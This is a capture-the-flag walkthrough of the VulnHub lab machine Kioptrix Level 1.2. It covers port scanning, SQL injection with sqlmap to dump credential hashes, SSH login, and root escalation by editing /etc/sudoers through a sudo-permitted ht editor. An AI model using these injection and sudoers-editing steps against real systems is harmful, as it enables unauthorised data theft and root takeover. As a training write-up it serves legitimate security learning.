








# Kioptrix Level 1.2 — VulnHub

| Field      | Value              |
|------------|--------------------|
| Platform   | VulnHub            |
| OS         | Linux              |
| Difficulty | Easy               |
| Tags       | gobuster, SQLi, sqlmap, hash cracking, SSH, sudo ht editor, /etc/sudoers |

---

## 1. Reconnaissance

```bash
nmap -sV -sC 192.168.0.30
```

| Port   | State | Service | Version       |
|--------|-------|---------|---------------|
| 22/tcp | Open  | SSH     | OpenSSH 3.9p1 |
| 80/tcp | Open  | HTTP    | Apache        |

---

## 2. Web Enumeration

The web root was a basic page. Ran gobuster to find hidden directories:

```bash
gobuster dir -u http://192.168.0.30 -w /usr/share/wordlists/dirb/common.txt
```



Found `/gallery` — a photo gallery application. Exploring it revealed a URL with an `id` parameter, a classic SQLi target.

---

## 3. SQL Injection — sqlmap

Tested the gallery URL for injection:

```
http://kioptrix3.com/gallery/gallery.php?id=1'
```

The error response confirmed SQLi. Enumerated databases with sqlmap:

```bash
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" --dbs --batch
```



Dumped the contents — extracted usernames and password hashes:

```bash
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" --dump-all --batch
```



Cracked the hashes with hashcat or an online tool. Recovered plaintext passwords for two users: `loneferret` and `dreg`.

---

## 4. SSH Access & User Enumeration

Logged in via SSH with both recovered credentials. Checked sudo permissions for each user:

```bash
sudo -l
```





`dreg` had no useful sudo access. `loneferret` could run one binary as root:

```
(root) NOPASSWD: /usr/local/bin/ht
```

`ht` is a console-based text editor (the HT Editor). Running it as root means it can open and modify any file on the system as root — including `/etc/sudoers`.

---

## 5. Privilege Escalation — ht Editor → /etc/sudoers

Launched the ht editor as root:

```bash
sudo ht /etc/sudoers
```



Inside ht, navigated to the sudoers file and added full root permissions for `loneferret`:

```
loneferret ALL=(ALL) ALL
```

Or more directly, modified the existing restricted entry to allow all commands.



Saved and exited ht (`F10` → save, `ESC` → quit). Now ran:

```bash
sudo su
```

Root shell obtained.



The flag was in the mail spool, as is typical for Kioptrix challenges:

```bash
cat /var/mail/root
# or
cat /var/spool/mail/root
```

---

## Key Takeaways

**URL parameters with numeric IDs are always worth testing for SQLi.** `?id=1'` and watching for a database error is a two-second test. If the error is verbose, sqlmap can take it from there automatically.

**Dump all database contents, not just one table.** Usernames and hashes may be in non-obvious tables. `--dump-all` is verbose but comprehensive.

**`sudo ht` = root file editor = unrestricted root.** Any text editor runnable via sudo can edit `/etc/sudoers`. Once `/etc/sudoers` grants `(ALL) ALL` to your user, `sudo su` is immediate root. This pattern applies to nano, vim, vi, ed, and any other editor.

**Check the mail spool for flags and sensitive information.** On older Linux CTF machines, flags and interesting data are often left in `/var/mail/root` or `/var/spool/mail/`. It's a quick check that's easy to overlook.
